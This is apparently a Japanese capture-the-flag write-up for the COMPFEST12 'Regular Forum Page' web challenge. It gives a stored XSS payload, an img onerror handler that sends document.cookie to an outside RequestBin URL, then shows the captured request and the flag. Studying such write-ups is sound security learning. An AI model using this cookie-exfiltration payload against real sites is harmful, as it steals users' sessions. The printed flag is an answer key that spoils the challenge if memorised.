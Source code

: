 # Regular Forum Page:Web:864pts
Check out my sweet new forum page! Mods will check often in to prevent bad things from happening.  
128.199.157.172:26552  

# Solution
アクセスすると以下のようなページに飛ぶ。  
SignupするとForumsを作れるようだ。  
Home | Regular Forums  
[site1.png](site/site1.png)  
Create Forum | Regular Forums  
[site2.png](site/site2.png)  
チェックが走るとのことなので、以下のようにXSSしてクッキーを[RequestBin.com](https://requestbin.com/)へ送る。  
```html
<img src=1 onerror="location.href='https://[RequestBinURL]?get='+document.cookie">
```
するとflagが得られた。  
```text
GET/?get=flag=COMPFEST12%7Bhtml_t4g_1s_n0t_C4s3_5ent1t1v3_5bc733a9f8%7D;%20csrftoken=~~~
```

## COMPFEST12{html_t4g_1s_n0t_C4s3_5ent1t1v3_5bc733a9f8}